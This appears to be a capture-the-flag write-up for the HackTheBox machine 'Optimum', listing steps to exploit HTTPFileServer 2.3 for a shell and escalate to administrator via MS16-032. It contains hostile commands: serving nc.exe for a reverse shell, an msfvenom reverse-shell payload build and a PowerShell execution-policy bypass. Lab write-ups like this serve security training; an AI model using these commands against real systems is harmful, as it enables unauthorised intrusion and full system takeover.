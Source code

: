# Optimum

### Full port scan

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### HTTPFileServer 2.3 RCE

![](<../../.gitbook/assets/image (99).png>)

* HTTPFileServer 2.3

[https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

* Edit the local IP addr and port number

![](<../../.gitbook/assets/image (80).png>)

* `cp /usr/share/windows-resources/binaries/nc.exe .`
* `python3 -m http.server 80`
* `python2.7 39161 10.10.10.8 80`
* Obtained user shell

<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

* Running windows exploit suggester

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

* `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o reverse.exe`
* Used [`https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1`](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1)
* Changed the payloads to `c:\\users\\kostas\\desktop\\reverse.exe`

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

* `c:\\windows\\sysnative\\windowspowershell\\v1.0\\powershell.exe -ep bypass .\\Invoke-MS16-032-Remote-Shell.ps1`
* Obtained ROOT

<figure><img src="../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8aac527b-9509-4339-852b-de86325dd20d/Untitled.png)
